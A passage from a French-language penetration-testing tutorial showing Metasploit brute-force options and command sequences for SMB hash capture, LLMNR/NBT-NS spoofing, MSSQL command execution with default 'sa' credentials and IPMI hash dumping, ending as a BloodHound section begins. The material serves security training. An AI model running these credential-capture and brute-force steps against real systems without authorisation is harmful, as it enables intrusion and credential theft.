 Options importantes pour les modules de brute force :

| Option | Description | Exemple |
|--------|-------------|---------|
| `BLANK_PASSWORDS` | Tester les mots de passe vides | `set BLANK_PASSWORDS true` |
| `USER_AS_PASS` | Tester le nom d'utilisateur comme mot de passe | `set USER_AS_PASS true` |
| `STOP_ON_SUCCESS` | Arrêter après le premier succès | `set STOP_ON_SUCCESS true` |
| `BRUTEFORCE_SPEED` | Vitesse de brute force (0-5) | `set BRUTEFORCE_SPEED 3` |

> **COMMENT ?**  
> Ajustez la vitesse de brute force en fonction du contexte. Une vitesse trop élevée peut déclencher des alertes ou bloquer des comptes. Pour les tests en production, privilégiez une approche plus lente et contrôlée.

### Modules de capture et de relais

```
# Serveur SMB pour capture de hachages
msf6 > use auxiliary/server/capture/smb
msf6 auxiliary(server/capture/smb) > set JOHNPWFILE /home/kali/pentest/hashes.txt
msf6 auxiliary(server/capture/smb) > run

# Relais LLMNR/NBT-NS
msf6 > use auxiliary/spoof/llmnr/llmnr_response
msf6 auxiliary(spoof/llmnr/llmnr_response) > set SPOOFIP 192.168.1.50
msf6 auxiliary(spoof/llmnr/llmnr_response) > run
```

### Modules d'exploitation de services spécifiques

```
# Exploitation de serveurs MSSQL
msf6 > use auxiliary/admin/mssql/mssql_exec
msf6 auxiliary(admin/mssql/mssql_exec) > set RHOSTS 192.168.1.100
msf6 auxiliary(admin/mssql/mssql_exec) > set USERNAME sa
msf6 auxiliary(admin/mssql/mssql_exec) > set PASSWORD password
msf6 auxiliary(admin/mssql/mssql_exec) > set CMD "whoami"
msf6 auxiliary(admin/mssql/mssql_exec) > run

# Exploitation de serveurs IPMI
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set RHOSTS 192.168.1.100
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run
```

## Intégration avec des outils externes

### BloodHound pour l'analyse Active Directory

BloodHound est un outil puissant pour visualiser et analyser les relations dans un environnement Active Directory.
